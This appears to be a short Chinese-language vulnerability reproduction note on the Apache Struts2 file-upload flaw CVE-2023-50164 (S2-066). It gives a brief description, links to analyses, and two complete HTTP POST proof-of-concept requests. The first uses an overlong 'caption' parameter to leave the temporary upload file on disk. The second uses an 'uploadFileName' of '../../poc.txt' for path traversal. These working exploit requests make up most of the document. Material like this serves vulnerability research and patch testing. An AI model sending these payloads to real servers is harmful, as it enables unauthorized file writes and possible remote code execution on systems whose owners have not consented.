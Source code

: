 ## Apache Struts2 CVE-2023-50164

漏洞描述里提到可通过伪造文件上传的参数导致目录穿越，看版本比对，有两个 Commit 引起我的关注，一个是 Always delete uploaded file，另一个是 Makes HttpParameters case-insensitive。前者的作用是确保上传的临时文件被正确上传，在修复之前，通过构造超长的文件上传参数可以让临时文件继续留存在磁盘中；

## 漏洞复现分析
- https://trganda.github.io/notes/security/vulnerabilities/apache-struts/Apache-Struts-Remote-Code-Execution-Vulnerability-(-S2-066-CVE-2023-50164)
- https://y4tacker.github.io/2023/12/09/year/2023/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%88%86%E6%9E%90-S2-066/
  
## poc

```
POST /s2_066_war_exploded/upload.action HTTP/1.1
Host: localhost:8080
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Length: 593
 
------WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Disposition: form-data; name="upload"; filename="poc.txt"
Content-Type: text/plain
 
test
 
 
------WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Disposition: form-data; name="caption";
 
 
{{randstr(4097,4097)}}
 
------WebKitFormBoundary5WJ61X4PRwyYKlip--
```



## poc2 

```
POST /s2_066_war_exploded/upload.action HTTP/1.1
Host: localhost:8080
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Length: 593

------WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Disposition: form-data; name="upload"; filename="poc.txt"
Content-Type: text/plain

test


------WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Disposition: form-data; name="uploadFileName";

../../poc.txt

------WebKitFormBoundary5WJ61X4PRwyYKlip--


```

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/2704f545199f4f96b56e440a53ddbf89.png)

- [【漏洞复现】Apache Struts2 CVE-2023-50164_cve-2023-50164 复现-CSDN博客](https://blog.csdn.net/qq_18193739/article/details/134935865?spm=1001.2014.3001.5501)
